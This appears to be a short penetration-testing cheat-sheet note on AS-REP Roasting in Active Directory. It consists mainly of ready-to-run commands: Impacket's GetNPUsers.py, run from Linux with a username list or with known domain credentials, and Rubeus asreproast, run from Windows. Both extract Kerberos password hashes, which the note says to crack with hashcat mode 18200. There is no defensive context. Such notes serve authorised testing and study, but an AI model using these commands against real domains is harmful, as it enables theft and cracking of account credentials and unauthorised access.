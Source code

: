 ```yaml
---
id: AS-REP Roasting
aliases:
  - AS-REP Roasting
tags:
  - windows
  - AD
  - passwords
  - pivoting
  - kerberos
---
```

## From Linux

1. Use Impacket's GetNPUsers script:
```bash
# Brute-forcing usernames
GetNPUsers.py -dc-ip "$DC_IP" -usersfile "$USERS_FILE" -format hashcat -outputfile "$OUTFILE"

# Knowing domain creds
GetNPUsers.py -dc-ip "$DC_IP" -request -format hashcat -outputfile "$OUTFILE" "$DOMAIN/$USER"
```

2. Crack with hashcat mode 18200


## From Windows

1. Use Rubeus with asreproast:
```powershell
.\Rubeus.exe asreproast /nowrap
```

2. Crack with hashcat mode 18200
